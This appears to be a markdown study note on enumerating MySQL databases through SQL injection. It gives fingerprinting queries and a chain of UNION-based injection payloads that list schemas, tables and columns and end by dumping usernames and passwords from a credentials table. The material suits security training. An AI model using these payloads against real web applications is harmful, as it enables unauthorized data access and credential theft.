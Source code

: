 ```yaml
---
title: a-Database Enumeration
draft: false
tags:
---
```

## MySQL Fingerprinting

If the web server is using `Apache` or `Nginx`, it is a good guess that the web server is using something like `MySQL.`

If the web server is using `IIS`, DBMS could be `MSSQL`.

Let's try fingerprinting MySQL database:

|Payload|When to Use|Expected Output|Wrong Output|
|---|---|---|---|
|`SELECT @@version`|When we have full query output|MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'|In MSSQL it returns MSSQL version. Error with other DBMS.|
|`SELECT POW(1,1)`|When we only have numeric output|`1`|Error with other DBMS|
|`SELECT SLEEP(5)`|Blind/No Output|Delays page response for 5 seconds and returns `0`.|Will not delay response with other DBMS|

## Information_schema Database

`INFORMATION_SCHEMA` database contains metadata about the databases and tables present on the server. 

To reference a table present in another DB, we can use `.` operator. 

e.g  `SELECT` a table `users` present in a database named `my_database`.

```sql
SELECT * FROM my_database.users;
```

## SCHEMATA

`SCHEMATA` table in the `INFORMATION_SCHEMA` database contains information about all databases on the server. 

```shell-session
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```


To find out about the current database:

```sql
cn' UNION select 1,database(),2,3-- -
```

## Tables

Before we dump data from database, we need to get a list of the tables to query them with a `SELECT` statement.

- `TABLE_SCHEMA` - points to the database each column belongs to
- `TABLE_NAME` - stores table names

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

## Columns

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

## Data

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```


